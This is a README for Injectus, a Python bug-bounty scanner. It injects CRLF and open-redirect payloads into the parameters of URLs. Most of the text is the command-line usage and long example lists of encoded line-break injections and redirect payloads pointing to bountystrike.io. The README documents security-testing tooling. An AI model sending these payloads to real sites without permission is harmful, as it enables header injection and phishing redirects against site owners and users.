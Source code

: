 # Injectus

Simple python tool that goes through a list of URLs trying CRLF and open redirect payloads.


```

    ▪   ▐ ▄  ▐▄▄▄▄▄▄ . ▄▄· ▄▄▄▄▄▄• ▄▌.▄▄ ·
    ██ •█▌▐█  ·██▀▄.▀·▐█ ▌▪•██  █▪██▌▐█ ▀.
    ▐█·▐█▐▐▌▪▄ ██▐▀▀▪▄██ ▄▄ ▐█.▪█▌▐█▌▄▀▀▀█▄
    ▐█▌██▐█▌▐▌▐█▌▐█▄▄▌▐███▌ ▐█▌·▐█▄█▌▐█▄▪▐█
    ▀▀▀▀▀ █▪ ▀▀▀• ▀▀▀ ·▀▀▀  ▀▀▀  ▀▀▀  ▀▀▀▀
               ~ BOUNTYSTRIKE ~

usage: Injectus [-h] [-f FILE] [-u URL] [-r] [-w WORKERS] [-t TIMEOUT]
                [-d DELAY] [-c] [-op]

Brute force CRLF and open redirect payloads for a given target. Crafted by
@dubs3c.

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing URLs
  -u URL, --url URL     Single URL to test
  -r, --no-request      Only build attack list, do not perform any requests
  -w WORKERS, --workers WORKERS
                        Amount of asyncio workers, default is 10
  -t TIMEOUT, --timeout TIMEOUT
                        HTTP request timeout, default is 6 seconds
  -d DELAY, --delay DELAY
                        The delay between requests, default is 1 second
  -c, --crlf            Only perform crlf attacks
  -op, --openredirect   Only perform open redirect attacks
```

## Motivation
Needed a simple CRLF/open redirect scanner that I could include into my bug bounty pipeline at [https://github.com/BountyStrike/Bountystrike-sh](https://github.com/BountyStrike/Bountystrike-sh). Didn't find any tools that satisfied my need, so I created Injectus. It's a little bit of an experiment, to see if it works better than other tools.

## Design

If we have the following URL:
```
https://dubell.io/?param1=value1&url=value2&param3=value3
```

**For CRLF attacks**, Injectus will inject every payload once into the value of one parameter, for every n parameters. For example, Injectus will create the following list with the URL above:
```
https://dubell.io/?param1=%%0a0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0d%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%23%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30%61bounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%3f%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%u000abounty:strike&url=value2&param3=value3

https://dubell.io/?param1=value1&url=%%0a0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0d%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%23%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30%61bounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%3f%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%u000abounty:strike&param3=value3

https://dubell.io/?param1=value1&url=value2&param3=%%0a0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0d%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%23%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30%61bounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%3f%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%u000abounty:strike
```

As you can see, every CRLF payload is injected in the first parameter's value. Once the loop is done, Injectus will inject every payload into the second parameter, and so on. Once all parameters have been injected, the list is complete.

If there are no query parameters, Injectus will simply append each payload to the URL, like so:
```
https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://dubell.io/some/path/%250abounty:strike
https://dubell.io/some/path/%25250abounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%u000abounty:strike
```

**When injecting open redirect payloads**, Injectus will only inject a payload if there exists a query/path parameter containing a typical redirect keyword, e.g. `url`. Injecting into the following URL `https://dubell.io/?param1=value1&url=dashboard&param3=value3`:
```
https://dubell.io/?param1=value1&url=$2f%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2f$2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io//param3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=////bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=///bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=//bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/\x08ountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/http://bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=bountystrike.ioparam3=value3
```
The URL contains the query parameter `url`, so Injectus will inject the payloads into that parameter.

An example when using path parameters. Original URL is `https://dubell.io/some/path/that/redirect/dashboard`:
```
https://dubell.io/some/path/that/redirect/$2f%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2f$2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io//
https://dubell.io/some/path/that/redirect/////bountystrike.io
https://dubell.io/some/path/that/redirect////bountystrike.io
https://dubell.io/some/path/that/redirect///bountystrike.io
https://dubell.io/some/path/that/redirect//\x08ountystrike.io
https://dubell.io/some/path/that/redirect//bountystrike.io
https://dubell.io/some/path/that/redirect//http://bountystrike.io
https://dubell.io/some/path/that/redirect/bountystrike.io
```

As before, if no query parameters or path parameters are found, Injectus will simply append each payload to the URL:
```
https://dubell.io/$2f%2fbountystrike.io%2f%2f
https://dubell.io/%2f$2fbountystrike.io
https://dubell.io/%2fbountystrike.io%2f%2f
https://dubell.io/%2fbountystrike.io
https://dubell.io/%2fbountystrike.io//
https://dubell.io/////bountystrike.io
https://dubell.io////bountystrike.io
https://dubell.io///bountystrike.io
https://dubell.io//\\bountystrike.io
https://dubell.io//bountystrike.io
https://dubell.io//http://bountystrike.io
https://dubell.io/bountystrike.io
```

## Installation
```
pip3.7 install -r requirements.txt --user
```

## Contributing
Any feedback or ideas are welcome! Want to improve something? Create a pull request!

1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Configure pre commit checks: `pre-commit install`
4. Commit your changes: `git commit -am 'Add some feature'`
5. Push to the branch: `git push origin my-new-feature`
6. Submit a pull request :D
